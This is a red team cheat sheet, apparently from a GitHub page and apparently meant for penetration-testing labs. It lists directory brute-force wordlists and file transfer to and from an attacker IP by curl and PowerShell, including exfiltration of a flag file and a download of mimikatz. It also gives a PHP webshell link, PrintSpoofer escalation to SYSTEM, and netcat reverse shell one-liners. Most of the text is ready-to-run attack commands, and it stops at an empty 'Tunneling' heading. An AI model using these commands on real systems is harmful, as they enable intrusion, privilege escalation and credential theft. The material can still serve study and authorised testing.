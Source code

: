 # Red Team Cheat Sheet

---

# Web

## Directory Traversal

https://github.com/danielmiessler/SecLists/tree/master/Discovery/Web-Content

Commonly Used Dictionaries

```
# web/common.txt - 4743 Lines
https://raw.githubusercontent.com/voidexec/sec/main/web/common.txt

# web/big.txt - 20476 lines
https://raw.githubusercontent.com/voidexec/sec/main/web/big.txt

# web/directory-list-2.3-small.txt - 87664 lines
https://raw.githubusercontent.com/voidexec/sec/main/web/directory-list-2.3-small.txt

# web/directory-list-2.3-medium.txt - 220559 lines
https://raw.githubusercontent.com/voidexec/sec/main/web/directory-list-2.3-medium.txt

# web/directory-list-2.3-big.txt - 1273832 lines
https://raw.githubusercontent.com/voidexec/sec/main/web/directory-list-2.3-big.txt
```

## HTTP Server for Upload and Download

```
# Download
https://raw.githubusercontent.com/voidexec/sec/main/web/httpserver.py

# Start Server
python3 httpserver.py (default port 80)
python3 httpserver.py -p 8000

# Upload file with curl
curl -F 'file=@/home/ubuntu/Desktop/flag.txt' http://192.168.45.145/

# Download file with curl
curl -O http://192.168.45.145/linpeas.sh

# Upload with PowerShell
$FilePath="C:\Users\Administrator\Desktop\flag.txt"; $Url="http://192.168.45.145/"; $client=New-Object System.Net.Http.HttpClient; $content=New-Object System.Net.Http.MultipartFormDataContent; $fileStream=[System.IO.File]::OpenRead($FilePath); $content.Add((New-Object System.Net.Http.StreamContent($fileStream)), "file", [System.IO.Path]::GetFileName($FilePath)); $client.PostAsync($Url, $content).Result.Content.ReadAsStringAsync().Result

# Download with PowerShell
iwr -uri "http://192.168.45.145/mimikatz.exe" -OutFile "C:\Users\Public\mimikatz.exe"
```

# Shell

Reverse Shell Generator https://www.revshells.com/

```bash
# PHP One-liner webshell
https://raw.githubusercontent.com/voidexec/sec/main/webshells/shell.php
```

# Windows

PrintSpoofer

```
https://github.com/itm4n/PrintSpoofer/releases
# Usage 1 - Spawning cmd interactive as system
.\PrintSpoofer64.exe -i -c cmd
# Usage 2 - Launching reverse shell as system
.\PrintSpoofer64.exe -c "C:\Users\Public\nc64.exe 192.168.45.145 9001 -e powershell"
```

NC

```
https://github.com/int0x33/nc.exe/
# nc64.exe
https://raw.githubusercontent.com/int0x33/nc.exe/master/nc64.exe
# Reverse shell
nc64.exe 192.168.45.145 9001 -e powershell
```

Mimikatz
```
https://raw.githubusercontent.com/ParrotSec/mimikatz/refs/heads/master/x64/mimikatz.exe
```

# Tunneling
